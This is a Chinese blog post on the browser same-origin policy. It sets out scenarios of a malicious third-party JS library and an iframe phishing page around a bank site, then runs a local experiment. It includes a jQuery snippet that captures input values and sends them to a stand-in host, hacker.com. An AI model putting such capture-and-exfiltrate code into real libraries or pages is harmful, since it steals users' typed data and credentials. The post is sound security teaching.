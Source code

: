 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决的问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些可能的web安全方面的隐患：

* <a name="s1">**情景1：**</a>假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}
var other = (function () {
    var getInputValAndSendToDB = function() {
        $('#text').on('change', function () {
            var val = $(this).val();
            send(val);
        });
    }
    var send = function (data) {
        $.get('http://www.hacker.com/?data=' + data, function (data) {
            console.log('来自第三方JS库的消息:');
            console.log(data);
        });
    };
    $(function () {
        getInputValAndSendToDB();
    });
})();
{% endhighlight %}

* **情景2：**再假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的内容没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input，或者将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。

好，现在我们有了两个情景，那这两种情景是否有可能在浏览器中发生呢？接下来我们通过实验的方式来验证一下。

实验方案：

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(第三方JS库提供者)端口
* 开发者: 引用第三方提供的JS库: other.js。页面中放置一个input标签
* 第三方: 提供other.js，并在other.js中写入[情景1](#s1)中提到的恶意代码
* 实验过程: 在开发者页面的input中输入值，看是否会被发送到第三方服务器

实验过程:

1. 开发者页面输入值: 
![Medium example image](https://yangfan44777.github.io/blog/1.png "Medium example image")

2.查看浏览器控制台:
![Large example image](https://yangfan44777.github.io/blog/2.png "Large example image")


